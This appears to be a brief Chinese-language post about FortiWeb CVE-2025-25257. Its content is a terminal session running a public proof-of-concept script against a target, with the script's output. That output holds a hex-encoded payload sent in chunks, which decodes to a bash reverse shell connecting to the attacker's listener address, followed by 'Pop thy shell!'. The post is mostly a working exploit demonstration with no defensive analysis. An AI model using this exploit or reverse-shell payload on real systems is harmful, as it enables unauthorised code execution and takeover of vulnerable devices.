 #  FortiWeb CVE-2025-25257  
 TtTeam   2025-07-21 10:20  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB33s3FJrTsOibsslspu2ErTR6tuz7LabjqvDbFzicgKTQxN6CmcMG6dIZGKiaCW6MAiaBJKNrc1M3SPicg/640?wx_fmt=png&from=appmsg "")  
  
 FortiWeb 是否易受 CVE-2025-25257 攻击  
  
```
python watchTowr-vs-FortiWeb-CVE-2025-25257.py --target https://192.168.8.30/ --lhost 192.168.8.148 --lport 1350
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchTowr-vs-FortiWeb-CVE-2025-25257.py

        (*) FortiWeb Unauthenticated SQLi to Remote Code Execution Detection Artifact Generator

          - Sina Kheirkhah (@SinSinology) of watchTowr (@watchTowrcyber)

        CVEs: [CVE-2025-25257]

[*] sprayed chunk #1/17:        '696d706f72'
[*] sprayed chunk #2/17:        '74206f733b'
[*] sprayed chunk #3/17:        '206f732e73'
[*] sprayed chunk #4/17:        '797374656d'
[*] sprayed chunk #5/17:        '2827626173'
[*] sprayed chunk #6/17:        '68202d6320'
[*] sprayed chunk #7/17:        '222f62696e'
[*] sprayed chunk #8/17:        '2f62617368'
[*] sprayed chunk #9/17:        '202d69203e'
[*] sprayed chunk #10/17:       '26202f6465'
[*] sprayed chunk #11/17:       '762f746370'
[*] sprayed chunk #12/17:       '2f3139322e'
[*] sprayed chunk #13/17:       '3136382e38'
[*] sprayed chunk #14/17:       '2e3134382f'
[*] sprayed chunk #15/17:       '3133353020'
[*] sprayed chunk #16/17:       '303e263122'
[*] sprayed chunk #17/17:       '2729'

[*] Pop thy shell!

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB33s3FJrTsOibsslspu2ErTRt4j7oK3qCsJ5Rhicv9wHXysqbFDVcTMUDnO2KibCcQPU9eFoRLdwXRSA/640?wx_fmt=png&from=appmsg "")  
  
